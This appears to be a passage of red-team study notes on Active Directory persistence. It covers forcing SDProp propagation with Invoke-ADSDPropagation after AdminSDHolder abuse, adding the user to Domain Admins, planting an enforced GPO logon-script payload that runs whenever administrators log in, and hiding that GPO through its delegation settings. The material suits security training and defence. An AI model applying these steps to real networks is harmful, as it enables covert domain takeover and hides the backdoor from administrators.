 By default, the group templates are reloaded every hour. This means waiting an entire hour after running this exploit to get full access, or forcing an update using `Invoke-ADSDPropagation.ps1`:
```
Import-Module .\Invoke-ADSDPropagation.ps1
Invoke-ADSDPropagation
```
After this was run, the target user will have full access. To make everything stable, add the user to the `Domain Admins` group.

#### Persistence through GPOs
First, boot up the `mmc`.
```
File --> Add/remove snap-in --> Group policy management --> Add        // From here, the Group Policy Management should be visible at the top of the open Console Root folder.
Console root --> Group Policy Management --> Forest: FOREST_NAME --> Domains --> DOMAIN --> Admins
Right-click the "Admins" (the location you just visited) --> Select "select Create a GPO in this domain, and Link it here" --> Name it --> OK
Right-click the policy --> Enable "Enforced"                           // Will run the policy no matter what
Right-click the policy --> "Edit" --> User configuration --> Policies --> Windows Settings --> Scripts (Logon / Logoff) --> Right-click "Logon" --> Properties --> Scripts --> Add --> Browse --> Payload (bat / exe (exe is untested so far)) --> Open --> OK --> Apply --> OK
// The previous line makes sure that whenever any Tier 0/1/2 admin logs in, the payload will be ran.
```
##### Hiding
Back to the MMC with the `Group Policy Management` added in:
```
Console root --> Group Policy Management --> Forest: FOREST_NAME --> Domains --> DOMAIN --> Admins --> The GPO rule made previously --> Delegation tab (the bar below the title text)
Remove all groups except for the "Authenticated Users", and the "ENTERPRISE DOMAIN CONTROLLERS" group.
Advanced button (right bottom) --> remove "CREATED OWNER"
// Hide completely (dangerous, if the exploit script placed doesn't work it can't be fixed.)
In the Advanced tab, remove "Authenticated users", and add "Domain Computers" --> enable only "Read" of "Domain Computers".
```